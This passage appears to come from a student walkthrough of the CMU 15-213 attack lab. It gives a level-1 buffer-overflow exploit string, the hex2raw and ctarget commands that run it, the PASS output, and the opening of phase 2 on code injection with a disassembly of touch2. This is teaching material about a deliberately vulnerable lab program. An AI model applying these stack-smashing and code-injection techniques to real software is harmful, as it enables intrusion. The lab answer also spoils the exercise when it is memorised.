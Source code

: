 phase1.txt
```
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
64 19 40 00 00 00 00 00 
```

now we need to take this file and run it through the program hex2raw which will generate raw exploit strings, and then run the raw file. this can be done through command below

linux> ./hex2raw < phase1.txt > 2018080106.ctarget.l1
linux> ./ctarget -q -i 2018080106.ctarget.l1

or you can run it in one line

linux> ./hex2raw < phase1.txt > 2018080106.ctarget.l1; ./ctarget -q -i 2018080106.ctarget.l1

if its correct, you should get somethings similar to below
```
Cookie: 0x117fd061
Touch1!: You called touch1()
Valid solution for level 1 with target ctarget
PASS: Would have posted the following:
        user id NoOne
        course  15213-f15
        lab     attacklab
        result  2018080106:PASS:0xffffffff:ctarget:1:00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 64 19 40 00 00 00 00 00
```

## PHASE 2 
phase 2 involves injecting a small amount of code as part of your exploit string while making it look like you passed the cookie as an argument to touch2

search for touch2 in our ctarget dump  (right below touch1), it looks something like this

ctarget.d
```
000000000040198f <touch2>:
  40198f:	48 83 ec 08          	sub    $0x8,%rsp
  401993:	89 fa                	mov    %edi,%edx
  401995:	c7 05 7d 3b 20 00 02 	movl   $0x2,0x203b7d(%rip)        # 60551c <vlevel>
  40199c:	00 00 00 
  40199f:	39 3d 7f 3b 20 00    	cmp    %edi,0x203b7f(%rip)        # 605524 <cookie>
  4019a5:	75 20                	jne    4019c7 <touch2+0x38>
  4019a7:	be b8 32 40 00       	mov    $0x4032b8,%esi
  4019ac:	bf 01 00 00 00       	mov    $0x1,%edi
  4019b1:	b8 00 00 00 00       	mov    $0x0,%eax
  4019b6:	e8 45 f4 ff ff       	callq  400e00 <__printf_chk@plt>
  4019bb:	bf 02 00 00 00       	mov    $0x2,%edi
  4019c0:	e8 57 04 00 00       	callq  401e1c <validate>
  4019c5:	eb 1e                	jmp    4019e5 <touch2+0x56>
  4019c7:	be e0 32 40 00       	mov    $0x4032e0,%esi
  4019cc:	bf 01 00 00 00       	mov    $0x1,%edi
  4019d1:	b8 00 00 00 00       	mov    $0x0,%eax
  4019d6:	e8 25 f4 ff ff       	callq  400e00 <__printf_chk@plt>
  4019db:	bf 02 00 00 00       	mov    $0x2,%edi
  4019e0:	e8 f9 04 00 00       	callq  401ede <fail>
  4019e5:	bf 00 00 00 00       	mov    $0x0,%edi
  4019ea:	e8 61 f4 ff ff       	callq  400e50 <exit@plt>
```
